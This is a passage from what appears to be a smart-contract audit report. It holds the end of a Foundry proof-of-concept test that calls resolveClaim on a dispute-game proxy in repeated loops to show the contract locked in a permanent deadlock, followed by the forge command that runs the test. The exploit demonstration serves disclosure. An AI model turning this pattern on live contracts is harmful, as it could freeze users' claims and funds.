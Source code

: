 ```solidity
            (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, (i - 1)));
        }

        // Now the first claims are pretty much locked.
        // Repeat the loop a couple of times to ensure the contract is in indefinite deadlock
        for (uint256 i = gameProxy.claimDataLen(); i > 0; i--) {
            if(i< 7){
                vm.expectRevert(OutOfOrderResolution.selector);
                (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, (i - 1)));
            } else {
                vm.expectRevert(ClaimAlreadyResolved.selector);
                (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, (i - 1)));
            }
        }

        for (uint256 i = gameProxy.claimDataLen(); i > 0; i--) {
            if(i< 7){
                vm.expectRevert(OutOfOrderResolution.selector);
                (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, (i - 1)));
            } else {
                vm.expectRevert(ClaimAlreadyResolved.selector);
                (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, (i - 1)));
            }
        }

        for (uint256 i = gameProxy.claimDataLen(); i > 0; i--) {
            if(i< 7){
                vm.expectRevert(OutOfOrderResolution.selector);
                (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, (i - 1)));
            } else {
                vm.expectRevert(ClaimAlreadyResolved.selector);
                (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, (i - 1)));
            }
        }
    }
```

Run the test with the following command:
```shell
forge test --match-test test_poc_01 -vvvvv
```

Do take some time to look at the execution traces, as they are of utmost importance to demonstrate the deadlock state in the contract.
